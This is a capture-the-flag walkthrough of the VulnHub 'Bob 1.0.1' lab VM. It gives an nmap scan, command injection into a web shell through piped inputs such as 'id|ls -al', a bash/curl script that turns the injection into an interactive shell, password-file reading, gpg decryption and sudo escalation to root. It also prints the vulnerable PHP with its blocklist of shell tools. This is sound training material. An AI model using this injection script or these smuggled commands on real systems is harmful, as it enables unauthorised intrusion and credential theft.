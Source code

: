 
<https://www.vulnhub.com/entry/bob-101,226/>

<https://hackso.me/bob-1.0.1-walkthrough/>

<https://resources.infosecinstitute.com/topic/bob-1-0-1-ctf-walkthrough/>



# Description

>
>Bob is my first CTF VM that I have ever made so be easy on me if it's not perfect.
>
The Milburg Highschool Server has just been attacked, the IT staff have taken down their windows server and are now >setting up a linux server running Debian. Could there a few weak points in the new unfinished server?
>
>Your Goal is to get the flag in /
>
>Hints: Remember to look for hidden info/files
>


# Keyword

bash_aliases, web shell, command injection, gpg, AES encrypted data




# Scan

    $ sudo nmap -sT -A  -Pn -n  -p- 192.168.110.4 
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-12 16:36 CEST
    Nmap scan report for 192.168.110.4
    Host is up (0.00051s latency).
    Not shown: 65533 closed ports
    PORT      STATE SERVICE VERSION
    80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
    | http-robots.txt: 4 disallowed entries 
    | /login.php /dev_shell.php /lat_memo.html 
    |_/passwords.html
    |_http-server-header: Apache/2.4.25 (Debian)
    |_http-title: Site doesn't have a title (text/html).
    25468/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 84:f2:f8:e5:ed:3e:14:f3:93:d4:1e:4c:41:3b:a2:a9 (RSA)
    |   256 5b:98:c7:4f:84:6e:fd:56:6a:35:16:83:aa:9c:ea:f8 (ECDSA)
    |_  256 39:16:56:fb:4e:0f:50:85:40:d3:53:22:41:43:38:15 (ED25519)
    MAC Address: 08:00:27:B4:F5:10 (Oracle VirtualBox virtual NIC)
    Device type: general purpose
    Running: Linux 3.X|4.X
    OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
    OS details: Linux 3.2 - 4.9
    Network Distance: 1 hop
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    TRACEROUTE
    HOP RTT     ADDRESS
    1   0.51 ms 192.168.110.4

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 9.00 seconds


# Web shell

    http://192.168.110.4/dev_shell.php


test : `id|id`, `id|ls -al`

## Injection command


A script

```bash
#!/bin/bash

HOST=192.168.110.4
SHELL=dev_shell.php
printf "$ "
while read line
do
    if [[ "$line" == "exit" ]]; then
        break
    fi
    curl -s --data-urlencode "in_command=id | $line" http://$HOST/$SHELL | sed '/<h5>/,/<\/div>/!d' | sed -r -e '1d' -e '$d' -e 's/^\s+//'
    printf "$ "
done < "/proc/${$}/fd/0"

```

Exploit

    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data),100(users)
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data),100(users)
    $ cat /home/bob/.old_passwordfile.html
    <html>
    <p>
    jc:Qwerty
    seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
    </p>
    </html>


# SSH connection


## Search

    seb@Milburg-High:/home/bob/Documents/Secret/Keep_Out/Not_Porn/No_Lookie_In_Here$ cat notes.sh 
    #!/bin/bash
    clear
    echo "-= Notes =-"
    echo "Harry Potter is my faviorite"
    echo "Are you the real me?"
    echo "Right, I'm ordering pizza this is going nowhere"
    echo "People just don't get me"
    echo "Ohhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh <sea santy here>"
    echo "Cucumber"
    echo "Rest now your eyes are sleepy"
    echo "Are you gonna stop reading this yet?"
    echo "Time to fix the server"
    echo "Everyone is annoying"
    echo "Sticky notes gotta buy em"



## Found password

    seb@Milburg-High:/home/bob/Documents/Secret/Keep_Out/Not_Porn/No_Lookie_In_Here$ bash notes.sh  | cut -c1 | tr -d '\n' && echo
    ARPOCRATES

## Decrypted gpg file

    seb@Milburg-High:/home/bob/Documents$ file login.txt.gpg 
    login.txt.gpg: GPG symmetrically encrypted data (AES cipher)


    seb@Milburg-High:/home/bob/Documents$ gpg -d --passphrase HARPOCRATES --batch login.txt.gpg 
    gpg: keybox '/home/seb/.gnupg/pubring.kbx' created
    gpg: AES encrypted data
    gpg: encrypted with 1 passphrase
    bob:b0bcat_

# Get root

    seb@Milburg-High:/home/bob/Documents$ su bob
    Password: b0bcat_
    bob@Milburg-High:~/Documents$ sudo -l
    sudo: unable to resolve host Milburg-High: Connection refused
    [sudo] password for bob: 
    Matching Defaults entries for bob on Milburg-High:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User bob may run the following commands on Milburg-High:
        (ALL : ALL) ALL
    bob@Milburg-High:~/Documents$ sudo id
    sudo: unable to resolve host Milburg-High: Connection refused
    uid=0(root) gid=0(root) groups=0(root)


# Secret

## `dev_shell.php`

```php
 # /bin/cat dev_shell.php
  
    //init
    $invalid = 0;
    $command = ($_POST['in_command']);
    $bad_words = array("pwd", "ls", "netcat", "ssh", "wget", "ping", "traceroute", "cat", "nc");
    if (strpos($command, ';') !==false){
        system("echo Nice try skid, but you will never get through this bulletproof php code"); //doesn't work :P
    } else {
        $is_he_a_bad_man = explode(' ', trim($command));
        //checks for dangerous commands
        if (in_array($is_he_a_bad_man[0], $bad_words)){
            system("echo Get out skid lol");
        } else {
            system($_POST['in_command']);
        }
    }


```


## `cat` command

### .profile

    if [ -d /etc/profile.d ]; then
      for i in /etc/profile.d/*.sh; do
        if [ -r $i ]; then
          . $i
        fi
      done
      unset i
    fi

### Directory /etc/profile.d/

    jc@Milburg-High:~$ /bin/cat /etc/profile.d/00-aliases.sh 
    alias cat='echo hey \n there'  <== HERE
    alias testing='echo testing right back at you'
